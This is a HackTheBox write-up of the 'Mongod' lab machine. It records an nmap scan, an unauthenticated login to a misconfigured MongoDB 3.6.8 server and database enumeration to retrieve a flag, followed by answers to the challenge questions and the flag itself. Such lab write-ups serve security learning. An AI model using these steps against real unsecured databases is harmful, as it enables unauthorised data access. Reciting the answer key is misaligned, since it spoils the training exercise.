 ```yaml
---
title: HackTheBox Mongod Writeup
authors: Samarth
categories: [HackTheBox , Starting Point - Tier 0]
tags: [Linux, MongoDB, Databases, Reconnaissance, Misconfiguration, Anonymous/Guest Access]
math: true
mermaid: true
---
```


![Mongod-HTB](/assets/images/starting-point/Mongod-HTB/banner.png)

## TL;DR

This writeup documents the process of exploiting the [__Mongod__](https://app.hackthebox.com/starting-point){:target="_blank"} machine on Hack The Box. An Nmap scan revealed two open ports: `22` (SSH) and `27017` (MongoDB). The MongoDB instance was outdated and misconfigured, allowing unauthenticated access. Using `mongosh`, I connected to the database and discovered that access control was disabled. Enumeration of the available databases led to the discovery of a `flag` table in the `sensitive_information` database, which contained the flag.

## Scanning Network

I began by performing an Nmap scan, which revealed open ports `22` and `27017`, corresponding to `SSH` and `MongoDB`. Here are the results from the Nmap scan:

```bash
nmap -sC -sV -A -T4 -Pn -p- 10.129.62.118 -oN scan/normal.scan
Starting Nmap 7.94 ( https://nmap.org ) at 2025-02-16 09:58 IST
Warning: 10.129.62.118 giving up on port because retransmission cap hit (6).
Stats: 0:13:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 55.19% done; ETC: 10:21 (0:10:39 remaining)
Stats: 0:18:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 76.80% done; ETC: 10:22 (0:05:33 remaining)
Stats: 0:22:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 95.70% done; ETC: 10:22 (0:01:02 remaining)
Nmap scan report for 10.129.62.118
Host is up (0.21s latency).
Not shown: 65445 closed tcp ports (conn-refused), 88 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
27017/tcp open  mongodb MongoDB 3.6.8 3.6.8
| mongodb-databases: 
```

## Enumeration

The `MongoDB` instance is running an outdated version, which might be vulnerable. Let's enumerate it further.

I will be using [__`mongosh`__](https://downloads.mongodb.com/compass/mongosh-2.3.9-linux-x64.tgz){:target="_blank"}, a `MongoDB` shell. 

## Exploitation

```bash
./mongosh mongodb://10.129.62.118:27017                        
Current Mongosh Log ID:	67b1938903963073bffe6910
Connecting to:		mongodb://10.129.62.118:27017/?directConnection=true&appName=mongosh+2.3.2
Using MongoDB:		3.6.8
Using Mongosh:		2.3.2
mongosh 2.3.9 is available for download: https://www.mongodb.com/try/download/shell

For mongosh info see: https://www.mongodb.com/docs/mongodb-shell/


To help improve our products, anonymous usage data is collected and sent to MongoDB periodically (https://www.mongodb.com/legal/privacy-policy).
You can opt-out by running the disableTelemetry() command.

------
   The server generated these startup warnings when booting
   2025-02-16T04:14:49.051+0000: 
   2025-02-16T04:14:49.051+0000: ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
   2025-02-16T04:14:49.051+0000: **          See http://dochub.mongodb.org/core/prodnotes-filesystem
   2025-02-16T04:14:51.696+0000: 
   2025-02-16T04:14:51.696+0000: ** WARNING: Access control is not enabled for the database.
   2025-02-16T04:14:51.696+0000: **          Read and write access to data and configuration is unrestricted.
   2025-02-16T04:14:51.696+0000:
------

test> help
```

Now that I have access to the `MongoDB` database, I will look into the available databases and tables.

```bash
test> show databases
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
```

I found five databases, so I will examine each one to identify sensitive information or a potential flag.

While checking the databases, I came across a table named `flag` in the `sensitive_information` database.

```bash
local> use sensitive_information
switched to db sensitive_information
sensitive_information> show tables
flag
sensitive_information> db.flag.find().pretty()
[
  {
    _id: ObjectId('630e3dbcb82540ebbd1748c5'),
    flag: '1b6e6fb359e7c40241b6d431427ba6ea'
  }
]
```

## Tasks

### How many TCP ports are open on the machine?

```plaintext
2
```

### Which service is running on port 27017 of the remote host?

```plaintext
MongoDB 3.6.8
```

### What type of database is MongoDB? (Choose: SQL or NoSQL)

```plaintext
NoSQL
```

### What is the command name for the Mongo shell that is installed with the mongodb-clients package?

```plaintext
mongosh
```

### What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

```plaintext
show dbs
```

### What is the command used for listing out the collections in a database? (No need to include a trailing ;)

```plaintext
show collections
```

### What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

```plaintext
db.flag.find().pretty()
```

### Submit root flag

```plaintext
1b6e6fb359e7c40241b6d431427ba6ea
```

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.